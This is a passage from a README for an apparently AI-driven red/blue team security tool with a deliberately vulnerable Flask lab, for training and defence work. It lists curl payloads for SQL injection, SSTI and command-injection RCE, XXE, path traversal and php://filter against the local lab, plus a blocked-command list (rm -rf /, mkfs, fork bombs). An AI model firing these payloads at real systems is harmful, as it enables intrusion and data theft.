The engine detects API failures (invalid key, quota exceeded, network timeout) and falls back to pattern-based defense automatically. If the AI is unreachable, the system still deploys tarpit for all pattern-matched attacks — defense never depends on the AI being available.

<h3>Endpoint Subagent System</h3>

After codebase analysis discovers all endpoints, the <code>SubagentManager</code> deploys one AI subagent per endpoint. Each subagent:

<ol>
<li><b>Analyzes its handler code</b> — identifies SQL injection points, missing auth checks, unsanitized inputs, dangerous function calls</li>
<li><b>Rates risk level (1-10)</b> — considers data sensitivity, authentication requirements, exposure surface</li>
<li><b>Plans defensive measures</b> — specific patches, input validation rules, auth gate recommendations</li>
<li><b>Defines normal traffic patterns</b> — expected methods, parameter types, body structures</li>
<li><b>Watches live traffic</b> — every request to its endpoint is routed through the subagent for context-aware analysis</li>
</ol>

Subagents analyze their endpoints in parallel batches of 5 to avoid overwhelming the AI provider. Each receives the full endpoint handler source code and produces a structured risk assessment. The main feed displays which subagent handled each request:

```
  -> routed to Subagent #3 (subagent-03) for /auth/login
  -> routed to Subagent #12 (subagent-12) for /api/search
```

The subagent manager provides <code>get_summary()</code> with per-endpoint risk rankings, anomaly counts, and blocked attack statistics. The <code>/state</code> command shows live subagent status.

<h3>Deception Arsenal</h3>

When the AI decides DECEIVE, multiple countermeasures deploy simultaneously:

<h4>Live Tarpit</h4>

The system writes to <code>/tmp/blue_tarpit.json</code> — a shared state file. The Flask vulnerable app reads this file on every request via a <code>@app.before_request</code> handler. If the request IP is flagged, the app calls <code>time.sleep(delay)</code> before processing. This is a real, measurable delay:

<table>
<tr><th>Request Type</th><th>Response Time</th></tr>
<tr><td>Normal GET /</td><td><b>0.018s</b></td></tr>
<tr><td>Tarpitted GET / (score 6)</td><td><b>5.8s</b></td></tr>
<tr><td>Tarpitted GET / (score 10)</td><td><b>8.0s</b></td></tr>
</table>

The delay scales with attack severity. Tarpit expires after 30 minutes. The attacker's tools timeout, their exploit chains break, their scanners crawl to unusable speeds — all while the blue team logs every move at maximum verbosity.

<h4>Network Blocking</h4>

Score 8+ attacks trigger <code>pfctl -t blue_blocked -T add &lt;IP&gt;</code> on macOS (iptables fallback on Linux). Network-level dropping prevents the attacker from even establishing TCP connections.

<h4>Honeypot Responses</h4>

The <code>honeypot_factory</code> generates realistic decoy data: fake admin users with canary API keys, phantom debug tokens, decoy configuration endpoints. Written to <code>/tmp/blue_honeypots.json</code> for the Flask app to serve.

<h4>Codebase Patching</h4>

The AI can return complete file content in <code>code_changes[].new_content</code>. The system writes these directly to the target codebase filesystem. Supported operations include: parameterizing SQL queries, adding authentication checks, deploying WAF rules, creating honeypot endpoint files, adding rate limiting, and fixing IDOR vulnerabilities. Silent patching is supported — fix the vulnerability but keep the original endpoint as a trap.

<h3>Session Knowledge Graph</h3>

The <code>BlueKnowledgeGraph</code> at <code>/tmp/blue_kg.json</code> is shared across all subagents and the main AI. It persists for the session duration and resets on new sessions.

<table>
<tr><th>Node Type</th><th>Fields</th><th>Example</th></tr>
<tr><td><b>attacker</b></td><td>IP, first_seen, flags, tools</td><td><code>127.0.0.1 — 4 flags — sqlmap detected</code></td></tr>
<tr><td><b>attack</b></td><td>IP, path, attack_type, score, payload, time</td><td><code>SQL Injection on /auth/login — score 9/10</code></td></tr>
<tr><td><b>defense</b></td><td>IP, type (tarpit/block/patch), detail, time</td><td><code>Tarpit deployed — 5.8s delay — 2nd SQLi attempt</code></td></tr>
<tr><td><b>intelligence</b></td><td>source, content, time</td><td><code>subagent-03: Login uses raw SQL concatenation</code></td></tr>
</table>

Edges link attackers to their attacks (<code>launched</code>), defenses to attackers (<code>defended_against</code>). The <code>get_attacker_history(ip)</code> method returns the complete profile: every attack, every defense, trigger counts, and timeline. The AI prompt includes this history so decisions are contextual — the same SQLi from a first-time IP gets DECEIVE, while the fourth SQLi from a persistent attacker gets BLOCK.

<h3>TUI — Live Traffic Feed</h3>

The Rich console display shows three levels of detail:

<h4>Normal Traffic</h4>

```
  #42    GET    /api/users                                         127.0.0.1  NORMAL
```

One dimmed line. Zero AI cost. Appears for every known-safe request.

<h4>Anomalous Traffic</h4>

```
  #43    POST   /auth/login                                        127.0.0.1  ?? ANOMALOUS (score 3)
```

Yellow <code>??</code> sigil. AI is analyzing — if benign, it joins the baseline; if malicious, it escalates.

<h4>Investigated Attack — Full Panel</h4>

When an attack is detected, a three-panel Rich display appears:

```
╭── REQUEST DETAILS ───────────────────────────────────────────────╮
│  Request #44    POST /auth/login                                  │
│  Source IP      127.0.0.1                                         │
│  Headers        Content-Type: application/json                    │
│  Body           {"username":"admin' OR '1'='1","password":"x"}    │
│  Analysis       2341ms via deepseek-v4-flash                      │
╰──────────────────────────────────────────────────────────────────╯

╭── AI REASONING ──────────────────────────────────────────────────╮
│  ATTACK ANALYSIS:                                                 │
│  SQL injection in username field. Classic OR 1=1 bypass pattern.  │
│  ATTACKER ASSESSMENT:                                             │
│  Automated scanner — sqlmap or custom script. Low sophistication. │
│  FULL REASONING:                                                  │
│  The payload admin' OR '1'='1 attempts to bypass authentication   │
│  by making the WHERE clause always true. The endpoint uses raw    │
│  string concatenation in SQL. Score 9/10 due to confirmed vuln.   │
╰──────────────────────────────────────────────────────────────────╯

╭── FLAGGED — Score 9/10 — Action: DECEIVE ────────────────────────╮
│  TARPIT: 127.0.0.1 — 5.8s delay per request                      │
│  Attacker's tools will timeout. All activity logged.              │
╰──────────────────────────────────────────────────────────────────╯
```

Panels use color-coded borders: cyan for request details, gold for AI reasoning, red for FLAGGED, green for NOT FLAGGED. No truncation — full request body, full headers, full AI reasoning chain.

<h4>Runtime Commands</h4>

<table>
<tr><th>Command</th><th>Action</th></tr>
<tr><td><code>Ctrl+C</code></td><td>Pause feed, enter command mode</td></tr>
<tr><td><code>/state</code></td><td>Show endpoints, subagents, requests, baseline status, AI cost</td></tr>
<tr><td><code>/report</code></td><td>Show KG summary: top attackers, attack/defense counts</td></tr>
<tr><td><code>/health</code></td><td>Run system health check</td></tr>
<tr><td><code>/quit</code></td><td>End session, save state</td></tr>
</table>

<h3>Vulnerable Lab — 25 Endpoints, 8 Route Groups</h3>

The built-in lab at port 5906 is a complex enterprise application designed to require multi-step exploitation. No single attack fully compromises it.

```bash
python3 medusa/lab/blue_target/vulnerable_app.py  # Starts on :5906
```

<table>
<tr><th>Route Group</th><th>Endpoints</th><th>Vulnerabilities</th></tr>
<tr><td><b>Auth</b></td><td><code>/auth/register</code>, <code>/auth/login</code>, <code>/auth/refresh</code>, <code>/auth/me</code>, <code>/auth/reset-password</code></td><td>SQLi in login, mass assignment (set role=admin), JWT alg:none acceptance, predictable reset tokens, IDOR on profile update</td></tr>
<tr><td><b>Users API</b></td><td><code>/api/users</code>, <code>/api/users/&lt;id&gt;</code>, DELETE</td><td>IDOR — any user can view any user, no CSRF on delete</td></tr>
<tr><td><b>Search</b></td><td><code>/api/search</code></td><td>SQLi in field name AND query value — dual injection point</td></tr>
<tr><td><b>Documents</b></td><td><code>/api/documents</code>, <code>/api/documents/&lt;id&gt;</code>, <code>/api/documents/&lt;id&gt;/download</code></td><td>IDOR on document access, path traversal in download, file upload extension bypass</td></tr>
<tr><td><b>Export</b></td><td><code>/api/export</code></td><td>XXE — XML external entity injection for file read</td></tr>
<tr><td><b>Templates</b></td><td><code>/api/templates/&lt;name&gt;</code></td><td>SSTI via <code>eval()</code> — full RCE through template expressions</td></tr>
<tr><td><b>Execute</b></td><td><code>/api/execute</code></td><td>Command injection via <code>shell=True</code> — full system RCE</td></tr>
<tr><td><b>Coupons</b></td><td><code>/api/coupons/redeem</code></td><td>Race condition with 0.5s artificial window — redeem unlimited times</td></tr>
<tr><td><b>GraphQL</b></td><td><code>/graphql</code></td><td>Introspection enabled, no query depth limiting, exposes schema internals</td></tr>
<tr><td><b>Admin</b></td><td><code>/admin</code>, <code>/admin/config</code></td><td>Auth bypass via X-Admin header, SSRF on webhook URL config</td></tr>
<tr><td><b>Health</b></td><td><code>/health</code></td><td>Information disclosure — Python version, paths, env vars, DB size</td></tr>
<tr><td><b>Debug</b></td><td><code>/debug/state</code></td><td>Internal state leak — DB paths, JWT secret prefix, tarpit IPs, rate limit counters</td></tr>
<tr><td><b>Landing</b></td><td><code>/</code></td><td>Full endpoint enumeration — lists all 25 routes</td></tr>
</table>

<p><b>Authentication:</b> JWT with HS256 signing, refresh token rotation, API key fallback, multiple roles (admin, moderator, analyst, user, guest). <b>Pre-seeded data:</b> 5 users, 2 documents, 2 coupon codes, 2 config entries. <b>Traffic logging:</b> Every request logged to <code>/tmp/blue_defend_traffic.jsonl</code> with full headers, body, IP, user-agent. <b>Tarpit integration:</b> Reads <code>/tmp/blue_tarpit.json</code> on every request — applies real sleep delays for flagged IPs.</p>

<h4>Exploitation Requires Multiple Steps</h4>

A full compromise chain against this lab:

```
1. Mass Assignment → Register as admin (POST /auth/register, role=admin)
2. JWT Token → Receive valid admin JWT
3. IDOR → Read all users via /api/users with admin token
4. SQLi Search → Extract password hashes via UNION injection
5. Path Traversal → Read /etc/passwd via document download
6. Command Injection → RCE via /api/execute with admin token
7. SSTI → Alternative RCE via template rendering
8. XXE → File read alternative via XML export
9. Race Condition → Infinite coupon redemption
10. SSRF → Internal service probe via admin config webhook
```

<h4>10 Attack Commands</h4>

```bash
# 1. SQL Injection — Login Bypass
curl -X POST http://127.0.0.1:5906/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'"'"' OR '"'"'1'"'"'='"'"'1","password":"x"}'

# 2. Auth Bypass — Admin Panel via Header
curl -H "X-Admin: true" http://127.0.0.1:5906/admin

# 3. Mass Assignment — Register as Admin
curl -X POST http://127.0.0.1:5906/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"eviladmin","password":"pass123","role":"admin"}'

# 4. Path Traversal — Read /etc/passwd (needs auth token)
TOKEN=$(curl -s -X POST http://127.0.0.1:5906/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password123"}' | python3 -c "import sys,json; print(json.load(sys.stdin).get('token',''))")
curl -H "Authorization: Bearer $TOKEN" \
  "http://127.0.0.1:5906/api/documents/1/download?path=../../../etc/passwd"

# 5. SSTI — Remote Code Execution
curl "http://127.0.0.1:5906/api/templates/test?data={{__import__('os').popen('id').read()}}"

# 6. SQLi Search — UNION Injection
TOKEN=$(curl -s -X POST http://127.0.0.1:5906/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"s$(date +%s)","password":"pass"}' | python3 -c "import sys,json; print(json.load(sys.stdin).get('token',''))")
curl -X POST http://127.0.0.1:5906/api/search \
  -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" \
  -d '{"q":"x","field":"username UNION SELECT 1,2,password,4 FROM users--"}'

# 7. XXE — File Read via XML
curl -X POST http://127.0.0.1:5906/api/export \
  -H "Content-Type: application/xml" \
  -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><data>&xxe;</data>'

# 8. Command Injection — RCE (needs admin JWT from mass assignment)
ADMIN_TOKEN=$(curl -s -X POST http://127.0.0.1:5906/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"cmdadmin","password":"pass","role":"admin"}' | python3 -c "import sys,json; print(json.load(sys.stdin).get('token',''))")
curl -X POST http://127.0.0.1:5906/api/execute \
  -H "Authorization: Bearer $ADMIN_TOKEN" -H "Content-Type: application/json" \
  -d '{"command":"id; cat /etc/passwd | head -5"}'

# 9. Scanner Recon — sqlmap User-Agent
curl -H "User-Agent: sqlmap/1.7.10#stable (https://sqlmap.org)" \
  http://127.0.0.1:5906/auth/login

# 10. File Inclusion — php://filter
curl -H "Authorization: Bearer $TOKEN" \
  "http://127.0.0.1:5906/api/documents/1/download?path=php://filter/convert.base64-encode/resource=../../../etc/passwd"
```

<h3>Blue Team File Structure</h3>

```
medusa/core/
├── constants.py              # Centralized constants — model IDs, ports, thresholds, timeouts, limits
├── paths.py                  # Configurable tmp paths (MEDUSA_TMP_DIR env var)
├── config_models.py          # Pydantic v2 config validation (RedConfig, BlueConfig with 8 sub-models)
│
medusa/core/blue/
├── errors.py                 # Structured error types — BlueError, FirewallError, DeceptionError, etc.
├── ai_engine.py              # AI analysis engine — prompt construction, JSON parsing, action execution
├── subagent_manager.py       # Per-endpoint subagent deployment, analysis, traffic routing
├── knowledge_graph.py        # Session-scoped shared intelligence — attackers, attacks, defenses
├── session_manager.py        # Blue session state — stats, attacker profiles, cost tracking
├── config.py                 # Operational configuration — thresholds, budgets, deception settings
├── codebase/                 # Codebase analysis
│   ├── scanner.py            # Multi-language endpoint discovery
│   ├── python_analyzer.py    # Flask/Django/FastAPI route extraction
│   ├── javascript_analyzer.py
│   ├── java_analyzer.py
│   └── php_analyzer.py
├── traffic/                  # Traffic analysis
│   ├── normalizer.py         # SmartNormalizer — pattern hashing, baseline learning
│   ├── anomaly_detector.py   # Regex-based attack signal detection
│   ├── scorer.py             # 1-10 request scoring
│   └── classifier.py         # Attack type identification
├── tui/                      # Terminal UI
│   ├── feed.py               # LiveFeed tier router — 18 pattern detectors, AI dispatch
│   ├── request_panel.py      # Rich three-panel rendering for investigated requests
│   └── dashboard.py          # Session overview dashboard
├── defense/                  # Defense modules
│   ├── deception_engine.py   # Orchestrates all deception tactics
│   ├── tarpit.py             # Connection-level slow-loris draining
│   ├── firewall.py           # Firewall rule management
│   ├── rate_limiter.py       # Per-IP rate limiting
│   └── waf_rules.py          # Web application firewall rules
├── deception/                # Deception tactics
│   ├── time_sink.py          # Tarpit, cookie stuffing, redirect loops
│   ├── honeypot_factory.py   # Dynamic decoy endpoint generation
│   └── shadow_redirect.py    # Transparent attacker isolation
├── watchers/                 # Traffic watchers
│   ├── spawner.py            # Watcher deployment
│   ├── health_monitor.py     # Watcher health checks
│   └── load_balancer.py      # Traffic distribution
└── soc/                      # SOC simulation
    └── soc_lead.py           # Strategic decision coordination

medusa/prompts/
└── blue_system.py            # Full defensive capabilities system prompt (mirrors red team scope)

medusa/lab/blue_target/
└── vulnerable_app.py         # 25-endpoint complex Flask application with 10 vulnerability classes

medusa/tools/
├── guardrails.py             # Command safety — 14 blocked patterns (rm -rf /, mkfs, fork bombs, etc.)
├── workspace.py              # Workspace path management — symlink resolution, allowlist
└── dispatch.py               # 85-tool dispatch hub (refactored — guardrails + workspace extracted)

.github/workflows/
└── ci.yml                    # GitHub Actions CI — matrix build, pytest, lint, dep audit

CHANGELOG.md                  # Complete version history — v2.0.0 full changelog
```

<h3>Blue Team Configuration</h3>

```json
{
    "traffic_normalization_turns": 25,
    "scorer": {
        "sql_keywords_weight": 4,
        "xss_pattern_weight": 3,
        "path_traversal_weight": 3,
        "critical_threshold": 8,
        "suspicious_threshold": 5
    },
    "watchers": {
        "max_per_endpoint": 3,
        "health_check_interval": 30
    },
    "deception": {
        "auto_honeypot": true,
        "auto_tarpit": true,
        "tarpit_delay_seconds": 8,
        "shadow_redirect_threshold": 8
    },
    "response": {
        "auto_block_critical": true,
        "max_blocks_per_hour": 50
    },
    "hotfix": {
        "auto_patch_critical": false,
        "silent_patch_mode": true
    },
    "cost": {
        "daily_budget_usd": 5.00,
        "max_llm_calls_per_minute": 20
    }
}
```

---

<br/>

---

<h2 align="center">New Here? Start With the Classic TUI</h2>

<p align="center">
  
  
</p>

> **If you do not know what you are doing, use `python3 medusa/main.py`.** It is
> the original, self-contained Medusa interface: a full-screen Rich TUI with
> guided menus, mode selection, live colored output, and no external shell
> dependencies. The terminal shell (`./medusa-tui.sh`) is the advanced path —
> you can always come back to it after you have seen the classic interface.

### Why the classic TUI first

<table>
<tr><th width="35%">Aspect</th><th>Classic TUI (`medusa/main.py`)</th></tr>
<tr><td>Dependencies</td><td>Python backend only. Install <code>pip install -r medusa/requirements.txt</code> and go.</td></tr>
<tr><td>Interface</td><td>Guided Rich terminal UI. You pick Red Team or Blue Team from a menu and it walks you through the engagement.</td></tr>
<tr><td>Output</td><td>Live command output with colored panels, severity-colored findings, and a scrolling engagement log.</td></tr>
<tr><td>Extras</td><td>No model provider signup, no session database, no MCP handshake. Everything runs in one process.</td></tr>
</table>

### Step by step

```bash
# 1. Create and activate a virtual environment
python3 -m venv .venv
source .venv/bin/activate            # Windows: .venv\Scripts\activate

# 2. Install the backend
pip install -r medusa/requirements.txt

# 3. Start the classic interface
python3 medusa/main.py
```

You will see the mode selection menu:

<pre>
  ┌──────────────────────────────────────────────┐
  │                MEDUSA v2.3.0-beta            │
  │                                              │
  │   [1]  Red Team   — attack & exploit         │
  │   [2]  Blue Team  — defend & deceive         │
  │                                              │
  │   Select a mode                              │
  └──────────────────────────────────────────────┘
</pre>

### First Red Team engagement (classic)

```bash
python3 medusa/main.py
# choose [1] Red Team
# point it at the built-in lab:
#   http://127.0.0.1:5906
```

The red team engine runs the standard chain on its own: port scan, endpoint
discovery, directory brute-force, CVE lookup, and exploitation of the seeded
vulnerabilities. Every step prints the command it ran and the verdict it
reached, and findings accumulate into `.notes/` with an audit trail.

### First Blue Team engagement (classic)

```bash
python3 medusa/main.py
# choose [2] Blue Team
```

Blue Team starts the built-in vulnerable lab, watches it, and waits for the
built-in attack simulator (or your own red team) to probe it. The SOC feed
shows every anomalous request with a severity score, and the response ladder
handles deception, blocking, and patching automatically.

### Classic TUI troubleshooting

| Symptom | Fix |
|---|---|
| `ModuleNotFoundError: medusa` | Run from the repository root (`cd raxaid-security`). |
| `No API key` | Red/Blue heuristic mode works without a key. Add `config.json` with a provider key for LLM-assisted reasoning. |
| Menu closes instantly | Run inside a real terminal; do not pipe stdin (`echo | python3 medusa/main.py`). |
| Port 5906 in use | `lsof -i :5906` to find the process; the lab also honors `BLUE_LAB_PORT` in `medusa/core/constants.py`. |

---

<h2 align="center">Dual-Mode System — Complete Reference</h2>

<p>
Medusa is one engine with two personas. Every capability below the interface —
tools, knowledge graph, modules, audit trail — is shared. The mode you pick
decides the doctrine, the prompts, and the direction of travel.
</p>

<table>
<tr><th width="22%"></th><th width="39%">Red Team</th><th width="39%">Blue Team</th></tr>
<tr><td><b>Goal</b></td><td>Discover, verify, and exploit vulnerabilities; claim flags; produce an engagement report.</td><td>Detect, deceive, block, and patch attackers; maintain a defense log and attacker profiles.</td></tr>
<tr><td><b>Driver</b></td><td>LangGraph state machine + supervisor pattern detector + parallel subagents.</td><td>18 pre-AI attack detectors + per-endpoint AI subagents + response ladder.</td></tr>
<tr><td><b>Tools</b></td><td>nmap, gobuster, feroxbuster, amass, sqlmap, hydra, Metasploit, john, CVE search.</td><td>tarpit, network block, canary tokens, patch engine, knowledge-graph profiling.</td></tr>
<tr><td><b>Default agent</b></td><td><code>medusa-red</code> (red, primary mode).</td><td><code>medusa-blue</code> (blue, primary mode).</td></tr>
<tr><td><b>Entry points</b></td><td><code>python3 medusa/main.py</code> or shell with <code>medusa-red</code>.</td><td><code>python3 medusa/main.py</code> or shell with <code>medusa-blue</code>.</td></tr>
<tr><td><b>Output</b></td><td>Findings, flags, exploit chains, audit trail, attack tree.</td><td>Incident feed, defense log, attacker history, patches applied.</td></tr>
</table>

### Engagement lifecycle

<pre>
                 ┌──────────────────────────────┐
                 │   MODE SELECTION             │
                 └──────────────┬───────────────┘
              ┌─────────────────┴──────────────────┐
              │                                    │
      ┌───────▼────────┐                  ┌────────▼────────┐
      │   RED TEAM     │                  │   BLUE TEAM    │
      └───────┬────────┘                  └────────┬───────┘
              │                                    │
  ┌───────────▼────────────┐            ┌──────────▼─────────────┐
  │ recon → vuln → exploit │            │ watch → detect → act   │
  │ → flag → report        │            │ deceive/block/patch    │
  └───────────┬────────────┘            └──────────┬─────────────┘
              │                                    │
              └──────────────┬─────────────────────┘
                             │
              ┌──────────────▼──────────────┐
              │   KNOWLEDGE GRAPH (shared)  │
              │   findings · flags · patches│
              │   attacker profiles · notes │
              └─────────────────────────────┘
</pre>

### Which mode do I want?

| Situation | Pick |
|---|---|
| You have a target you are allowed to test and want findings. | Red Team |
| You own an app and want it attacked and hardened automatically. | Both: Blue runs the lab, Red attacks it. |
| You want to watch live traffic and auto-respond to attacks. | Blue Team |
| You want a structured pentest report with an attack chain. | Red Team |
| You want to learn how attacks look from the SOC side. | Blue Team + the built-in attack simulator. |

---

<h2 align="center">Terminal Shell — Full Guide</h2>

<p>
The shell (<code>tui/</code>, a fork of opencode, MIT) is the power-user
interface. One prompt box; every backend tool one call away; sessions persist
to SQLite and resume later.
</p>

### Launch

```bash
./medusa-tui.sh                    # green TUI, medusa-red is the default agent
./medusa-tui.sh mcp list           # inspect the MCP bridge
./medusa-tui.sh agent list         # list agents
./medusa-tui.sh run "recon 127.0.0.1:5906"   # headless one-shot
```

### Agents

| Agent | Mode | Color | Purpose |
|---|---|---|---|
| `medusa-red` | primary (default) | red `#e06c75` | Offensive engagements: recon, exploitation, post-exploitation, reporting. |
| `medusa-blue` | primary | blue `#5c9cf5` | SOC defense: detection, deception, blocking, patching. |
| `build` | primary | green | Generic development agent (kept from the shell's origin). |
| `plan` | primary | green | Read-only analysis and planning. |
| `explore` / `general` | subagent | — | Built-in helpers for search and multistep tasks. |

Switch agents with `Tab` in the session. New sessions start as `medusa-red`
because `medusa.json` sets `default_agent`.

### Commands

| Command | What it does |
|---|---|
| `/classic-tui` | Launches the classic Rich TUI inside the shell's terminal; the agent streams it and picks up after you exit. |
| `/lab` | Starts the vulnerable lab on :5906 in the background and confirms it is listening. |
| `/init`, `/compact`, `/undo`, `/redo`, `/export` | Session utilities from the shell runtime. |

### Key ideas

- **Sessions persist.** The SQLite store (`~/.local/share/medusa/`) keeps every
  session, message, and tool call; re-opening resumes where you left off.
- **Tools stream into the transcript.** Each `medusa_*` call renders as
  `$ nmap -sV -sC -T4 target` with the raw output inline and color-coded.
- **Permissions are per-action.** `medusa.json` ships with edit/bash/webfetch
  allowed; the shell still asks before dangerous commands.
- **The classic TUI is never more than a command away** — `/classic-tui` or
  `python3 medusa/main.py`.

### medusa.json (project config)

```json
{
  "$schema": "https://medusa.ai/config.json",
  "default_agent": "medusa-red",
  "small_model": "deepseek-v4-flash",
  "permission": { "edit": "allow", "bash": "allow", "webfetch": "allow" },
  "mcp": {
    "medusa": {
      "type": "local",
      "command": ["python3", "medusa/mcp_server.py"],
      "enabled": true
    }
  }
}
```

Agents live in `.medusa/agents/*.md`, commands in `.medusa/commands/*.md`.
Global configuration lives in `~/.config/medusa/`.

---

<h2 align="center">MCP Bridge — Reference</h2>

<pre>
   Terminal shell (TypeScript)                Python backend
   ┌─────────────────────────┐      stdio     ┌──────────────────────┐
   │ medusa-red / medusa-blue │  JSON-RPC 2.0  │ medusa/mcp_server.py │
   │ session · reasoning · UI │ ──────────────▶│ 115 named tools      │
   └─────────────────────────┘  newline-delim │ route_tool dispatch  │
                                             └──────────────────────┘
</pre>

The sidecar (`medusa/mcp_server.py`) is zero-dependency JSON-RPC 2.0 over
stdio. It discovers the module packs at startup and exposes **every** backend
tool under its own name with a schema derived from the Python signature, so
the shell shows real commands and validates arguments before dispatch.

### Recon

| Tool | Example call | Result |
|---|---|---|
| `nmap_scan` | `nmap_scan target=example.com flags="-sV -sC -T4"` | Port/service scan output |
| `gobuster_dir` | `gobuster_dir url=http://example.com wordlist=/usr/share/wordlists/dirb/common.txt` | Discovered paths |
| `gobuster_dns` | `gobuster_dns domain=example.com` | Subdomains |
| `feroxbuster_scan` | `feroxbuster_scan url=http://example.com` | Recursive content discovery |
| `amass_enum` | `amass_enum domain=example.com` | Passive/active subdomains |
| `crtsh_domain` | `crtsh_domain domain=example.com` | Certificate transparency |
| `dns_enum_nameservers` | `dns_enum_nameservers domain=example.com` | NS records |
| `dns_zone_transfer` | `dns_zone_transfer domain=example.com` | AXFR attempt |
| `sslscan_check` | `sslscan_check host=example.com` | TLS config issues |
| `search_cve` | `search_cve software="apache" version="2.4.49"` | Matching CVEs |

### Exploitation

| Tool | Purpose |
|---|---|
| `sqlmap_scan` | SQL injection detection and exploitation |
| `hydra_brute` | Online credential brute-force |
| `john_crack` | Offline hash cracking |
| `msf_run` / `msf_command` / `msf_sessions` | Metasploit module execution through the local RPC daemon |
| `apply_patch` | Apply a remediation patch (sqli, cmdi, ssrf, ssti, xss, idor) |

### Intelligence, notes, and reporting

| Tool | Purpose |
|---|---|
| `write_note` | Append a structured note to the engagement notes |
| `record_finding` | Record a finding into the knowledge graph |
| `check_knowledge` | Query the knowledge graph for target/payload history |
| `search_kb` | Search the local knowledge base |
| `generate_report` | Render a structured engagement report |
| `attack_tree` | Build an attack tree from a trace |
| `claim_flag` | Claim a CTF objective |

### Blue team tools

| Tool | Purpose |
|---|---|
| `medusa_detect` | 18-pattern pre-AI attack detector on a request dict |
| `medusa_kg_attacker` | Attacker history from the knowledge graph |
| `execute_terminal` | Guarded shell for tarpit/firewall/service control |
| `medusa_status` | Engine version, lab port, tool count |

### Protocol notes

- `initialize`, `notifications/initialized`, `ping`, `tools/list`, `tools/call`
- Tool results are markdown: a bold `[medusa] tool:` header, the args, and a
  fenced code block with the raw output
- Unknown tools return `isError` rather than crashing the session

---

<h2 align="center">Walkthrough — Red Team Engagement</h2>

```bash
# Terminal 1: the vulnerable lab
python3 medusa/lab/blue_target/vulnerable_app.py

# Terminal 2: the shell
./medusa-tui.sh
```

Type a single prompt and watch the chain:

<pre>
You: recon 127.0.0.1:5906 and find the SQLi

medusa-red:
  Thought: Starting with port and service discovery.

  $ nmap -sV -sC -T4 127.0.0.1
  PORT     STATE SERVICE  VERSION
  5906/tcp open  http     Werkzeug/3.0.1
  5907/tcp open  http     Werkzeug/3.0.1

  Thought: Two HTTP services. Enumerating directories.

  $ gobuster dir -u http://127.0.0.1:5906 -w /usr/share/wordlists/dirb/common.txt
  /login                (Status: 200)
  /admin                (Status: 403)
  /.git/HEAD            (Status: 200)

  Thought: .git exposure on the first service. Extracting credentials from
  commit history, then testing the login for SQL injection.

  $ sqlmap -u http://127.0.0.1:5906/login --data "user=admin&pass=x" --batch
  [10:42:11] [INFO] parameter 'user' is vulnerable: boolean-based blind

  Claimed flag: FLAG{sqli_login_bypass}
  Note written: .notes/sqli_findings.md
</pre>

The session keeps a full transcript: every reasoning step, every tool call
with its raw output, and every note. `/export` produces a JSON snapshot of
the whole engagement.

---

<h2 align="center">Walkthrough — Blue Team Defense</h2>

```bash
# Terminal 1: Blue Team starts the lab and watches it
python3 medusa/main.py     # choose [2] Blue Team

# Terminal 2: the built-in attack simulator probes the lab
python3 medusa/lab/blue_target/attack_simulator.py
```

The SOC feed lights up as the simulator attacks:

<pre>
[detect] POST /login            score 6/10   pattern SQLi
[decide] first contact          action: tarpit  (8s per response)
[detect] GET /.git/HEAD         score 7/10   pattern source-exposure
[decide] repeat offender        action: block 203.0.113.7
[detect] POST /upload           score 9/10   pattern webshell-upload
[decide] critical               action: patch applied (upload allowlist)
[record] attacker 203.0.113.7 -> profile saved to knowledge graph
</pre>

### The response ladder

| Score | Meaning | Response |
|---|---|---|
| 5+ | Suspicious | Validate, tarpit candidates |
| 7+ | Confirmed attack | Deceive (honeypot/canaries) or block |
| 9+ | Critical or repeat offender | Block immediately + patch the vulnerable code |

Deception over blocking: a blocked attacker returns with a new IP; a deceived
attacker reveals their toolkit, which the knowledge graph stores for the next
encounter.

### Purple teaming

Run both halves at once: Blue Team defends the lab while Red Team attacks it.
The knowledge graph is shared, so every flag the red team claims and every
defense the blue team deploys is visible to both — a complete engagement log
of the battle.

---

<h2 align="center">Troubleshooting &amp; FAQ</h2>

<details>
<summary><b>The TUI exits immediately or shows "Unexpected error"</b></summary>
Run it from a real terminal. `script`/pipes and non-TTY contexts break the
renderer. Use `./medusa-tui.sh` from the repository root; the launcher sets the
correct working directory for you.
</details>

<details>
<summary><b>Tool calls return "Invalid Tool: nmap_scan"</b></summary>
The MCP sidecar must discover the module packs at startup. Restart the TUI so a
fresh session reconnects to the sidecar. Confirm with
`./medusa-tui.sh mcp list` — it should show `medusa connected`.
</details>

<details>
<summary><b>nmap/gobuster/feroxbuster are missing</b></summary>
Install them: `brew install nmap gobuster feroxbuster john` (macOS) or
`apt install nmap gobuster feroxbuster john` (Debian/Ubuntu). sqlmap and hydra
are bundled as Python modules where possible.
</details>

<details>
<summary><b>The agent keeps asking for a model</b></summary>
`./medusa-tui.sh auth login` and pick the free Zen tier, or add a provider key
for any supported provider. The classic `main.py` heuristic mode works without
a model.
</details>

<details>
<summary><b>Port 5906 is already in use</b></summary>
`lsof -i :5906` to find the process. The lab honors `BLUE_LAB_PORT` from
`medusa/core/constants.py` if you need a different port.
</details>

<details>
<summary><b>Sessions do not persist between launches</b></summary>
The shell stores sessions under `~/.local/share/medusa/`. If you delete that
directory you lose history. Use `medusa session` to inspect what exists.
</details>

<details>
<summary><b>Typecheck fails after editing the shell</b></summary>
`cd tui && bun install && bun run typecheck`. The shell requires bun 1.3.x;
node_modules must be installed per workspace.
</details>

<details>
<summary><b>Lint reports nothing or thousands of warnings</b></summary>
`cd tui && bun run lint`. The config is `.oxlintrc.json`; the lint script
enumerates files explicitly because this oxlint build does not accept directory
arguments in this tree.
</details>

<details>
<summary><b>Is this legal to use?</b></summary>
Only against systems you own or have explicit written permission to test. See
the legal disclaimer at the top of this document.
</details>

<details>
<summary><b>Can I use Medusa without any LLM?</b></summary>
Yes. The heuristic engines, pattern detectors, and the full tool dispatch work
without a model. The LLM adds reasoning, hypothesis generation, and reporting
quality.
</details>

---

<h2 align="center">Glossary</h2>

| Term | Meaning |
|---|---|
| **MCP** | Model Context Protocol — the JSON-RPC bridge between the shell and the Python backend. |
| **Sidecar** | `medusa/mcp_server.py`, the process that serves the backend to the shell. |
| **Agent** | A prompt persona with a mode, color, permissions, and tools. |
| **Primary mode** | An agent the user can select as the session's driver. |
| **Subagent** | A helper agent spawned by a primary agent for a scoped task. |
